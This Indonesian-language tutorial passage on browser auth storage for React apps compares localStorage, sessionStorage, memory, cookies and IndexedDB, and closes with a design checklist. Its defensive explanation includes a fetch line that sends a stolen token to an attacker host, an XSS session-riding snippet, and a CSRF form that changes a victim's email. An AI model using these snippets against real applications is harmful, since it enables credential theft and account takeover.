



# LocalStorage, SessionStorage, Memory, Cookie

Storage auth di browser sering dibahas sebagai potongan kode:

```ts
localStorage.setItem("token", token);
```

Atau:

```ts
document.cookie = `token=${token}`;
```

Itu terlalu dangkal.

Untuk React app production, pertanyaan yang benar bukan:

```txt
Token disimpan di mana?
```

Pertanyaan yang benar:

```txt
Credential apa yang bisa dilihat JavaScript?
Credential apa yang dikirim otomatis oleh browser?
Credential apa yang bertahan setelah reload?
Credential apa yang ikut ke semua tab?
Credential apa yang masih hidup setelah user logout di tab lain?
Credential apa yang bisa dicuri oleh XSS?
Credential apa yang bisa disalahgunakan oleh CSRF?
Credential apa yang bisa dibersihkan secara deterministik?
```

Part ini membongkar storage browser sebagai **security design surface**, bukan convenience API.

---

## 1. Mental model: storage bukan security boundary

Browser storage adalah tempat menyimpan state.

Ia bukan authority.
Ia bukan proof of permission.
Ia bukan sumber kebenaran.
Ia bukan pengganti server-side authorization.



Storage hanya menjawab:

```txt
Apa yang masih tersedia di browser saat ini?
```

Ia tidak menjawab:

```txt
Apakah user masih boleh mengakses resource ini?
```

Karena permission bisa berubah tanpa browser tahu:

- role dicabut oleh admin,
- membership tenant dihapus,
- session direvoke,
- device dianggap berisiko,
- password diganti,
- MFA enrollment berubah,
- policy berubah,
- case/resource berpindah state,
- legal hold diberlakukan,
- account disuspend.

Maka storage decision harus selalu digabung dengan server verification.

---

## 2. Tiga axis storage decision

Setiap storage option harus dievaluasi minimal pada tiga axis.

```mermaid
flowchart LR
    A[Storage Option] --> B[Visibility]
    A --> C[Persistence]
    A --> D[Transport]

    B --> B1[Readable by JS?]
    B --> B2[Readable by server?]
    B --> B3[Readable by extension/devtools?]

    C --> C1[Memory only]
    C --> C2[Tab lifetime]
    C --> C3[Browser lifetime]
    C --> C4[Explicit expiry]

    D --> D1[Manual Authorization header]
    D --> D2[Automatic Cookie header]
    D --> D3[Not sent directly]
```



### Axis 1: visibility

Siapa yang bisa membaca credential?

| Storage | JavaScript readable? | Sent automatically? | Primary risk |
|---|---:|---:|---|
| Memory | Yes, by executing JS in app realm | No | XSS can act as app during runtime |
| `sessionStorage` | Yes | No | XSS theft, tab lifecycle confusion |
| `localStorage` | Yes | No | XSS theft, long-lived compromise |
| IndexedDB | Yes | No | XSS theft, stale sensitive cache |
| Cookie without HttpOnly | Yes | Yes | XSS theft + CSRF |
| Cookie with HttpOnly | No via normal JS | Yes | CSRF/session riding |

### Axis 2: persistence

Berapa lama credential bertahan?

| Storage | Survives reload? | Survives browser restart? | Shared across tabs? |
|---|---:|---:|---:|
| Memory | No | No | No, unless manually coordinated |
| `sessionStorage` | Usually yes within same tab | Usually no | No, per tab/top-level context |
| `localStorage` | Yes | Yes | Yes, same origin |
| IndexedDB | Yes | Yes | Yes, same origin |
| Cookie session | Depends on cookie/session config | Depends on cookie/session config | Yes, same cookie scope |

### Axis 3: transport

Bagaimana credential dipakai untuk request?

| Transport | How it works | Security implication |
|---|---|---|
| Authorization header | App reads token and attaches header | JS must hold token; less CSRF-prone; XSS can steal/use token |
| Cookie header | Browser attaches cookie automatically | JS need not read session id; CSRF risk must be handled |
| BFF session | Browser sends cookie to BFF; BFF uses server-side token | Token hidden from browser; more infrastructure |

---

## 3. What not to store

Ada kategori data yang sebaiknya tidak berada di browser storage readable-by-JS.

```txt
Do not store sensitive authentication material in JS-readable persistent storage.
```

Contoh yang harus dihindari untuk `localStorage`, `sessionStorage`, IndexedDB, Cache API:

```txt
- refresh token
- long-lived access token
- session id
- raw ID token yang berisi sensitive claims
- permission snapshot yang dianggap authority
- tenant membership snapshot yang dianggap final
- MFA bypass marker
- impersonation credential
- recovery token
- invite token yang belum expired
- password reset token
```

Bukan berarti browser tidak boleh menyimpan apa pun.

Yang relatif aman sebagai client state:

```txt
- non-sensitive UI preference
- last selected tenant id, sebagai hint saja
- last visited route, setelah divalidasi sebagai internal URL
- cached non-sensitive public metadata
- feature UI cache yang tidak memberi akses sendiri
- short-lived in-memory access token dalam model tertentu
```

Kata kuncinya: **hint, not authority**.

Jika data dari storage bisa membuat user melewati server check, desainnya salah.

---

## 4. localStorage

`localStorage` adalah persistent key-value storage per origin.

Contoh:

```ts
localStorage.setItem("access_token", token);
const token = localStorage.getItem("access_token");
```

Secara ergonomi, ini menggoda:

- mudah,
- bertahan setelah refresh,
- shared antar tab,
- tidak butuh server session,
- mudah dipakai interceptor.

Secara security, ini sering menjadi sumber kompromi besar.

OWASP HTML5 Security Cheat Sheet merekomendasikan menghindari penyimpanan sensitive information di local storage jika data itu berhubungan dengan authentication assumption. Alasannya sederhana: data ini accessible oleh JavaScript dalam origin tersebut. Jika ada XSS, token bisa dibaca, dikirim ke attacker, dan digunakan di luar browser user.

### 4.1 Apa yang membuat localStorage berbahaya untuk token?

Pertama, token bersifat **bearer**.

```txt
Siapa pun yang memegang bearer token dapat menggunakannya.
```

Jika XSS membaca token:

```ts
fetch("https://attacker.example/steal", {
  method: "POST",
  body: localStorage.getItem("access_token")
});
```

Attacker bisa memakai token dari environment lain selama token valid.

Kedua, localStorage persistent.

Jika access token atau refresh token bertahan selama hari/minggu, XSS satu kali bisa menjadi session compromise panjang.

Ketiga, localStorage shared across tabs.

Perubahan login/logout bisa propagasi lewat `storage` event, tetapi shared storage juga berarti semua tab dalam origin melihat material yang sama.

Keempat, localStorage tidak punya path scoping.

Cookie bisa dibatasi dengan `Path`, `Domain`, prefix, dan attributes. localStorage hanya origin-level. Semua script pada origin yang sama bisa membaca semua key.

```txt
https://app.example.com/admin
https://app.example.com/marketing-widget
https://app.example.com/legacy-page
```

Jika semuanya satu origin, semuanya berbagi localStorage.

### 4.2 localStorage acceptable untuk apa?

Gunakan localStorage untuk **non-sensitive durable preference**.

Contoh:

```ts
localStorage.setItem("theme", "dark");
localStorage.setItem("sidebarCollapsed", "true");
localStorage.setItem("lastTenantHint", tenantId);
```

Tapi `lastTenantHint` harus divalidasi server:

```ts
const tenantHint = localStorage.getItem("lastTenantHint");
const session = await fetchSession();

const selectedTenant = session.tenants.some(t => t.id === tenantHint)
  ? tenantHint
  : session.defaultTenantId;
```

Jangan lakukan:

```ts
// Bad: localStorage decides tenant authority.
const tenantId = localStorage.getItem("tenantId");
api.defaults.headers["X-Tenant-Id"] = tenantId!;
```

Karena user bisa mengubahnya.

### 4.3 localStorage anti-pattern catalog

```ts
// Bad: long-lived bearer token in persistent JS-readable storage.
localStorage.setItem("token", accessToken);
```

```ts
// Bad: refresh token in localStorage.
localStorage.setItem("refresh_token", refreshToken);
```

```ts
// Bad: role snapshot as authority.
localStorage.setItem("role", "admin");
```

```ts
// Bad: permission used without server validation.
const canApprove = localStorage.getItem("canApprove") === "true";
```

```ts
// Bad: impersonation state stored as client authority.
localStorage.setItem("impersonatingUserId", targetUserId);
```

If an attacker can set it, read it, or persist it, it cannot be the root of trust.

---

## 5. sessionStorage

`sessionStorage` mirip localStorage, tetapi lifetime-nya terikat pada tab/top-level browsing context.

Contoh:

```ts
sessionStorage.setItem("postLoginReturnUrl", "/cases/123");
const returnUrl = sessionStorage.getItem("postLoginReturnUrl");
```

Secara security, `sessionStorage` sedikit lebih baik daripada localStorage untuk beberapa transient value karena:

- tidak shared antar tab,
- biasanya hilang saat tab ditutup,
- tidak persistent jangka panjang seperti localStorage.

Tetapi ia tetap readable by JavaScript.

Jadi untuk token auth:

```txt
sessionStorage mengurangi persistence risk, bukan menghilangkan XSS risk.
```

### 5.1 Good use cases

`sessionStorage` cocok untuk transient login flow state yang tidak sensitif atau sudah dilindungi:

```txt
- post-login return path, setelah validasi internal URL
- OAuth transaction id reference, jika value tidak cukup untuk bypass server check
- UI wizard progress yang non-sensitive
- temporary form state yang tidak rahasia
- tab-local selected item
```

Contoh validasi return URL:

```ts
function safeInternalPath(raw: string | null): string {
  if (!raw) return "/";

  try {
    const url = new URL(raw, window.location.origin);

    if (url.origin !== window.location.origin) return "/";
    if (!url.pathname.startsWith("/")) return "/";
    if (url.pathname.startsWith("//")) return "/";

    return `${url.pathname}${url.search}${url.hash}`;
  } catch {
    return "/";
  }
}
```

### 5.2 Bad use cases

```ts
// Bad: refresh token still readable by XSS.
sessionStorage.setItem("refresh_token", refreshToken);
```

```ts
// Bad: treating tab-local role as authority.
sessionStorage.setItem("role", user.role);
```

```ts
// Bad: storing sensitive form data longer than needed.
sessionStorage.setItem("ssn", form.ssn);
```

### 5.3 sessionStorage and OAuth flow

Dalam OAuth/OIDC redirect flow, app kadang perlu menyimpan transient state sebelum redirect ke authorization server.

Contoh:

```txt
- state
- nonce
- code_verifier
- returnUrl
```

Tetapi harus dibedakan:

```txt
state/nonce/code_verifier adalah transaction material.
Bukan session credential jangka panjang.
```

Material seperti `code_verifier` memang diperlukan oleh public client dalam PKCE, tetapi lifetime-nya harus pendek, terkait transaksi login, dan dibersihkan setelah callback selesai.

```ts
sessionStorage.setItem(`oauth:${transactionId}:codeVerifier`, codeVerifier);

// After callback succeeds or fails:
sessionStorage.removeItem(`oauth:${transactionId}:codeVerifier`);
```

Lebih baik lagi, gunakan auth SDK yang sudah benar dalam mengelola transaction storage, kecuali kamu memang sedang membangun client dari scratch untuk memahami detailnya.

---

## 6. Memory storage

Memory storage berarti credential hanya disimpan di runtime JavaScript, misalnya:

```ts
let accessToken: string | null = null;

export function setAccessToken(next: string | null) {
  accessToken = next;
}

export function getAccessToken() {
  return accessToken;
}
```

Atau dalam class:

```ts
class AuthClient {
  private accessToken: string | null = null;

  setAccessToken(token: string | null) {
    this.accessToken = token;
  }

  async fetch(input: RequestInfo, init: RequestInit = {}) {
    const headers = new Headers(init.headers);

    if (this.accessToken) {
      headers.set("Authorization", `Bearer ${this.accessToken}`);
    }

    return fetch(input, { ...init, headers });
  }
}
```

Memory storage punya sifat penting:

```txt
It is less persistent, not magically safe.
```

### 6.1 Kelebihan memory storage

- token hilang saat reload,
- tidak tersisa di localStorage/sessionStorage,
- tidak otomatis shared antar tab,
- mengurangi dampak XSS yang hanya membaca storage statis,
- cocok untuk short-lived access token.

### 6.2 Kelemahan memory storage

- reload kehilangan token,
- butuh bootstrap ulang,
- multi-tab lebih kompleks,
- refresh token tetap harus ditempatkan di tempat lain,
- XSS runtime tetap bisa bertindak sebagai user,
- debugging lebih sulit,
- race condition refresh mudah terjadi.

### 6.3 XSS tetap masalah

Misal token ada di closure/private variable dan tidak ada di localStorage. Apakah XSS tidak bisa apa-apa?

Tidak.

XSS bisa memanggil API melalui app yang sudah authenticated:

```ts
fetch("/api/me", { credentials: "include" });
```

Atau bisa memicu aksi:

```ts
fetch("/api/payments/123/approve", {
  method: "POST",
  credentials: "include",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ approve: true })
});
```

Memory storage mengurangi **token exfiltration**.

Ia tidak menghilangkan **session riding via XSS**.

Maka XSS defense tetap wajib:

- output escaping,
- no unsafe HTML,
- Content Security Policy,
- dependency hygiene,
- trusted component boundary,
- strict markdown/html rendering,
- sanitization where unavoidable,
- audit third-party scripts.

### 6.4 Typical memory-token architecture



Dalam BFF model, React tidak perlu menyimpan access token. Yang ada di React hanyalah session view dan permission view.

Dalam SPA-only model, memory access token bisa dipakai, tetapi refresh lifecycle harus dirancang hati-hati.

---

## 7. Cookie storage

Cookie adalah HTTP state mechanism.

Cookie bisa dibuat oleh server melalui `Set-Cookie`:

```http
Set-Cookie: __Host-session=abc123; Path=/; Secure; HttpOnly; SameSite=Lax
```

Cookie akan dikirim browser pada request yang sesuai scope:

```http
Cookie: __Host-session=abc123
```

Berbeda dari Authorization header, React tidak perlu membaca cookie untuk mengirimnya.

```ts
await fetch("/api/me", {
  credentials: "include"
});
```

### 7.1 Cookie with HttpOnly

Jika cookie diberi `HttpOnly`, JavaScript normal tidak bisa membaca nilainya via `document.cookie`.

Ini besar manfaatnya:

```txt
XSS tidak mudah mengekstrak session id sebagai string.
```

Tetapi cookie tetap dikirim otomatis oleh browser.

Artinya:

```txt
HttpOnly mengurangi token theft.
HttpOnly tidak mencegah request berbahaya dibuat dari browser user.
```

Jika app rentan XSS, attacker bisa tetap mengirim request dengan cookie attached.

Jika app rentan CSRF, situs lain bisa memicu request yang membawa cookie user, tergantung SameSite dan endpoint behavior.

### 7.2 Cookie without HttpOnly

Cookie readable by JS adalah kombinasi buruk untuk credential:

```txt
Readable by JS + automatically sent by browser = XSS theft + CSRF-like automatic credential behavior.
```

Hindari menyimpan session credential di cookie yang bisa dibaca JS.

Cookie yang boleh dibaca JS biasanya bukan credential utama, misalnya:

```txt
- UI locale
- non-sensitive preference
- CSRF token dalam double-submit pattern, jika desainnya tepat
```

### 7.3 Cookie attributes yang penting

| Attribute | Meaning | Why it matters |
|---|---|---|
| `Secure` | Cookie hanya dikirim lewat HTTPS, kecuali special localhost behavior | Mengurangi network leakage |
| `HttpOnly` | Tidak readable via `document.cookie` | Mengurangi token theft via XSS |
| `SameSite` | Mengontrol pengiriman cookie pada cross-site request | Mengurangi CSRF surface |
| `Path` | Membatasi path cookie dikirim | Membantu scoping, bukan auth boundary kuat |
| `Domain` | Membatasi domain/subdomain scope | Domain terlalu luas memperbesar blast radius |
| `Max-Age`/`Expires` | Mengatur persistence | Session lifetime control |
| `Partitioned` | Cookie partitioned untuk third-party context tertentu | Relevan untuk embedded/cross-site cases |
| `__Host-` prefix | Host-only, Secure, Path=/, no Domain | Mengurangi cookie injection/subdomain risk |

### 7.4 `__Host-` prefix

Untuk session cookie first-party yang sensitif, prefer prefix:

```http
Set-Cookie: __Host-session=<opaque>; Path=/; Secure; HttpOnly; SameSite=Lax
```

Syarat `__Host-` secara umum:

```txt
- Secure
- Path=/
- no Domain attribute
- set from secure origin
```

Konsekuensinya cookie bound ke host spesifik, bukan semua subdomain.

Ini membantu menghindari kasus subdomain lemah ikut mempengaruhi cookie session domain utama.

---

## 8. IndexedDB and Cache API side note

Walau judul part ini fokus pada localStorage/sessionStorage/memory/cookie, React app modern sering memakai IndexedDB dan Cache API melalui:

```txt
- offline support
- service worker
- Workbox
- TanStack Query persistence
- Apollo cache persistence
- local-first apps
- PWA installable apps
```

Aturan keamanan sama:

```txt
Persistent JS-readable storage is not a safe place for sensitive auth material.
```

IndexedDB bisa menyimpan objek kompleks dan data besar. Itu membuatnya lebih menggoda dan lebih berbahaya jika dipakai untuk:

```txt
- full user profile with sensitive claims
- permission graph lengkap
- case data regulated
- downloaded documents
- signed URLs
- access token/refresh token
```

Cache API juga berbahaya jika response authenticated dicache tanpa kontrol.

Contoh buruk:

```ts
// Service worker caches authenticated API response without user/session partition.
caches.open("api-cache").then(cache => cache.put(request, response));
```

Jika user logout lalu user lain memakai browser yang sama, cache bisa bocor bila keying dan purge salah.

Prinsip:

```txt
Authenticated cache must be session-scoped, user-scoped, tenant-scoped, expiry-aware, and purgeable on logout.
```

Untuk banyak aplikasi regulated, default terbaik:

```txt
Do not persist authenticated API response client-side unless there is a reviewed requirement.
```

---

## 9. Storage decision matrix

Gunakan matrix ini saat design review.

| Use case | Recommended storage | Reason |
|---|---|---|
| Opaque server session id | HttpOnly Secure SameSite cookie | JS tidak perlu membaca session id |
| Short-lived access token in pure SPA | Memory, with careful refresh strategy | Mengurangi persistence theft |
| Refresh token for browser app | Prefer HttpOnly cookie/BFF; avoid JS-readable persistent storage | Refresh token punya high blast radius |
| OAuth transaction state | sessionStorage or auth SDK transaction store | Tab-local transient flow |
| Post-login return URL | sessionStorage, validated internal path | Non-sensitive, transient |
| Theme/locale/sidebar | localStorage or non-sensitive cookie | Preference only |
| Last selected tenant | localStorage as hint only | Harus divalidasi against server membership |
| Permission snapshot | Memory/cache with short TTL; server is authority | Avoid stale privilege |
| Sensitive document preview | Avoid persistent storage | Prevent data leak after logout/shared machine |
| CSRF token | Depends on pattern; often cookie + header/body token | Must be bound/validated server-side |

---

## 10. Designing storage around session lifecycle

Storage decision harus mengikuti lifecycle.



Untuk setiap transition, tanyakan:

```txt
Apa yang harus ditulis ke storage?
Apa yang harus dihapus dari storage?
Apa yang harus dipropagasikan ke tab lain?
Apa yang harus diinvalidate di query cache?
Apa yang harus dicatat di audit/telemetry?
```

### 10.1 Login success

Pada login success:

```txt
- establish server session / receive token according to architecture
- fetch session view from /me or /session
- initialize permission cache
- clear stale anonymous route intent
- validate tenant selection
- emit auth event
```

Jangan:

```ts
localStorage.setItem("role", response.user.role);
localStorage.setItem("permissions", JSON.stringify(response.permissions));
```

Gunakan in-memory/session cache:

```ts
authStore.setSession({
  user: response.user,
  tenants: response.tenants,
  permissions: response.permissions,
  issuedAt: Date.now()
});
```

### 10.2 Logout

Logout harus membersihkan lebih dari token.

```ts
async function logout() {
  try {
    await fetch("/auth/logout", {
      method: "POST",
      credentials: "include",
      headers: { "X-CSRF-Token": csrfTokenStore.get() }
    });
  } finally {
    authStore.clear();
    queryClient.clear();
    sessionStorage.clear(); // only if app owns all keys or use scoped clear
    localStorage.removeItem("lastTenantHint");
    broadcastAuthEvent({ type: "LOGOUT" });
    router.navigate("/login", { replace: true });
  }
}
```

Hati-hati dengan `localStorage.clear()`.

Jika origin dipakai banyak app, `clear()` bisa menghapus preference lain yang bukan milik modul auth. Lebih baik gunakan prefix:

```ts
const AUTH_PREFIX = "auth:";

function clearAuthLocalStorage() {
  for (const key of Object.keys(localStorage)) {
    if (key.startsWith(AUTH_PREFIX)) {
      localStorage.removeItem(key);
    }
  }
}
```

### 10.3 Session expired

Expired bukan logout normal.

Expired harus menghasilkan state berbeda:

```txt
- show re-login state
- preserve safe return intent
- clear sensitive cache
- avoid repeated refresh loop
- stop background polling
- close realtime channels
```

```ts
function onSessionExpired() {
  authStore.transition({ type: "SESSION_EXPIRED" });
  queryClient.clear();
  realtime.close("session-expired");
  router.navigate("/login?reason=expired", { replace: true });
}
```

### 10.4 Permission changed

Permission changed tidak selalu session expired.

```txt
Session valid, capability changed.
```

Response server bisa berupa:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json

{
  "code": "PERMISSION_REVOKED",
  "resource": "case:123",
  "action": "approve",
  "refreshPermissions": true
}
```

Client reaction:

```ts
if (error.code === "PERMISSION_REVOKED") {
  permissionCache.invalidate();
  await authClient.refetchPermissions();
  showAccessChangedMessage();
}
```

Jangan logout user otomatis untuk semua 403.

---

## 11. Multi-tab implications

Storage bukan hanya single tab problem.

User bisa punya:

```txt
- tab dashboard,
- tab admin console,
- tab case detail,
- tab report export,
- tab old route setelah laptop sleep.
```

### 11.1 localStorage event

`storage` event bisa dipakai untuk propagasi logout:

```ts
function broadcastLogout() {
  localStorage.setItem("auth:event", JSON.stringify({
    type: "LOGOUT",
    at: Date.now(),
    id: crypto.randomUUID()
  }));
}

window.addEventListener("storage", (event) => {
  if (event.key !== "auth:event" || !event.newValue) return;

  const message = JSON.parse(event.newValue);

  if (message.type === "LOGOUT") {
    authStore.clear();
    queryClient.clear();
    router.navigate("/login", { replace: true });
  }
});
```

Namun storage event bukan general-purpose event bus yang sempurna.

Prefer `BroadcastChannel` untuk modern cross-tab messaging, dengan fallback storage event.

```ts
const channel = new BroadcastChannel("auth");

channel.postMessage({ type: "LOGOUT", at: Date.now() });

channel.onmessage = (event) => {
  if (event.data?.type === "LOGOUT") {
    authStore.clear();
  }
};
```

### 11.2 Refresh token race

Jika beberapa tab mencoba refresh bersamaan:

```txt
Tab A refreshes token.
Tab B refreshes same old refresh token.
Auth server detects reuse.
Whole session may be revoked.
```

Maka multi-tab refresh butuh coordination:

```txt
- single refresh lock,
- leader tab,
- BFF server-side refresh,
- retry after refreshed session visible,
- rotation-aware error handling.
```

Ini akan dibahas lebih dalam di Part 014 dan Part 018.

---

## 12. Storage and React state architecture

Jangan campur semua auth state ke React Context tanpa boundary.

Buruk:

```ts
const AuthContext = createContext({
  token: localStorage.getItem("token"),
  user: JSON.parse(localStorage.getItem("user")!),
  role: localStorage.getItem("role")
});
```

Masalah:

```txt
- state initialized from untrusted storage,
- no state machine,
- no expiry semantics,
- no refresh semantics,
- no permission invalidation,
- no logout propagation,
- no typed failures.
```

Lebih baik pisahkan:

```txt
AuthClient     = talks to auth/session endpoints
AuthStore      = in-memory state machine
StorageAdapter = limited persistence for safe hints/transactions
Permission     = derived view from server contract
ReactProvider  = subscription bridge to React
```

```mermaid
flowchart TD
    A[React Components] --> B[Auth Provider]
    B --> C[Auth Store]
    C --> D[Auth Client]
    C --> E[Permission Store]
    C --> F[Storage Adapter]
    D --> G[/session /me /logout]
    E --> H[/permissions]
    F --> I[sessionStorage/localStorage limited keys]
```

Example shape:

```ts
type AuthState =
  | { status: "anonymous" }
  | { status: "bootstrapping" }
  | { status: "authenticated"; session: SessionView }
  | { status: "refreshing"; session: SessionView }
  | { status: "expired"; reason: "idle_timeout" | "absolute_timeout" | "refresh_failed" }
  | { status: "forbidden"; reason: string };
```

Storage adapter should not expose arbitrary access:

```ts
interface AuthStorage {
  getReturnPath(): string | null;
  setReturnPath(path: string): void;
  clearReturnPath(): void;

  getLastTenantHint(): string | null;
  setLastTenantHint(tenantId: string): void;
}
```

Notice what is missing:

```txt
- getToken()
- setToken()
- getRole()
- setRole()
- setPermissions()
```

That omission is intentional.

---

## 13. Practical recommendations

### 13.1 For enterprise/regulatory React apps

Default recommendation:

```txt
Use HttpOnly Secure SameSite cookie with server-side session or BFF.
Keep access/refresh tokens out of JavaScript-readable persistent storage.
Fetch session view through /session or /me.
Fetch permissions through explicit contract.
Use deny-by-default UI while session/permission state is unknown.
```

Why:

```txt
- lower token exfiltration risk,
- better revocation story,
- easier audit,
- better centralized policy enforcement,
- safer SSR/BFF compatibility,
- easier incident response.
```

### 13.2 For pure SPA with external API

If a backend/BFF is not available:

```txt
- use Authorization Code + PKCE,
- keep access token short-lived,
- avoid localStorage refresh token,
- use memory where possible,
- design reload/bootstrap behavior explicitly,
- use refresh token rotation only with provider guidance,
- implement XSS hardening seriously,
- treat token theft as an incident scenario.
```

### 13.3 For low-risk internal tools

Even internal tools should avoid sloppy token storage, because internal compromise often has higher privilege.

Minimum baseline:

```txt
- no refresh token in localStorage,
- no role/permission from storage as authority,
- short access token lifetime,
- logout clears query/cache/session state,
- all mutations server-authorized,
- 401/403 handled distinctly,
- dangerous admin operations require server-side checks and audit.
```

---

## 14. Design review checklist

Use this before approving a React auth storage design.

### Credential visibility

```txt
[ ] Is the session credential readable by JavaScript?
[ ] If yes, why is that acceptable?
[ ] Is the credential bearer?
[ ] Can XSS exfiltrate it as a string?
[ ] Can browser extensions access it?
```

### Persistence

```txt
[ ] Does credential survive reload?
[ ] Does credential survive browser restart?
[ ] Does credential survive logout accidentally?
[ ] Is there explicit expiry?
[ ] Is stale permission cache invalidated?
```

### Transport

```txt
[ ] Is credential sent automatically by browser?
[ ] If cookie-based, what is CSRF defense?
[ ] If header-based, where does token live?
[ ] Are CORS and credentials configured intentionally?
```

### Scope

```txt
[ ] Is cookie Domain too broad?
[ ] Is cookie Path appropriate?
[ ] Is localStorage origin shared with legacy/marketing/third-party code?
[ ] Are subdomains trusted equally?
```

### Multi-tab

```txt
[ ] Does logout propagate to other tabs?
[ ] Does session expiry stop polling/realtime?
[ ] Is refresh coordinated across tabs?
[ ] What happens after laptop sleep?
```

### Cache

```txt
[ ] Are authenticated responses persisted?
[ ] Are query caches cleared on logout?
[ ] Are tenant-scoped caches separated?
[ ] Are signed URLs cached?
```

### Server authority

```txt
[ ] Does server validate every sensitive action?
[ ] Does frontend permission only control exposure?
[ ] Can storage tampering grant access? It must not.
```

---

## 15. Common failure scenarios

### Scenario A: role stored in localStorage

```ts
localStorage.setItem("role", "admin");
```

Then UI does:

```ts
if (localStorage.getItem("role") === "admin") {
  showAdminPanel();
}
```

If API also trusts client role:

```http
X-User-Role: admin
```

This is catastrophic.

Correct design:

```txt
- role/permission comes from authenticated server session,
- client uses it only for UI exposure,
- API checks server-side subject/action/resource/context,
- client storage tampering changes nothing server-side.
```

### Scenario B: access token in localStorage, XSS in markdown preview

User opens a case comment containing malicious HTML.

The renderer allows script execution.

Script reads localStorage token and exfiltrates it.

Even after user closes tab, attacker has token until expiry/revocation.

Correct design:

```txt
- no long-lived token in localStorage,
- sanitize markdown/HTML,
- CSP,
- short token lifetime,
- token rotation/revocation,
- audit abnormal token use.
```

### Scenario C: cookie auth with no CSRF defense

App uses HttpOnly cookie.

Mutation endpoint accepts form POST with no CSRF token/origin check.

Attacker site submits form to:

```html
<form action="https://app.example.com/api/email/change" method="POST">
  <input name="email" value="attacker@example.com" />
</form>
```

Browser may attach cookies depending on SameSite/context.

Correct design:

```txt
- SameSite appropriately configured,
- CSRF token for state-changing operations,
- Origin/Referer verification where applicable,
- JSON/content-type strategy is not sole defense,
- server rejects missing/invalid CSRF proof.
```

### Scenario D: persisted query cache after logout

User A logs out.
User B uses same browser.
